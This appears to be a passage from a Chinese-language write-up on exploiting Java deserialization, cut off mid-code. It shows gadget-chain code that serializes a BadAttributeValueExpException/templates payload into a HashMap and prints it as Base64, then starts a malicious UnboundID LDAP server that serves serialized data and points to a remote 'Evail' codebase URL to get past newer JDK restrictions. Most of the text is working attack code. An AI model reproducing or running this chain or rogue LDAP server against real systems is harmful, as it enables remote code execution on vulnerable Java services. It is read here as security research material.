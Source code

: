 ```java

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd, "val", jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(templates, bd);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();
        byte[] serialize = byteArrayOutputStream.toByteArray();
        System.out.println(Base64.getEncoder().encodeToString(serialize));
//                ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
//        objectInputStream.readObject();

    }}

```

‍

但由于jdk高版本的限制所以要用到一些手法绕过，这里用的就是LDAP返回序列化字符串来打反序列化了

‍

起一个恶意的LDAPServer，里面加载了恶意的序列化数据

LDAPServer

```java
package JNDIBypass;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;
import org.apache.commons.io.FileUtils;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.File;
import java.io.IOException;
import java.net.InetAddress;
import java.net.URL;
//高版本LDAP绕过

public class LDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main (String[] tmp_args ) throws Exception{
        if (tmp_args.length < 2) {
            System.out.println("Usage: java xxx.jar <IP> <file>");
            System.exit(1);
        }

        String ip = tmp_args[0];
        String[] args = new String[]{"http://" + ip +"/#Evail"};
        String payload = "";
```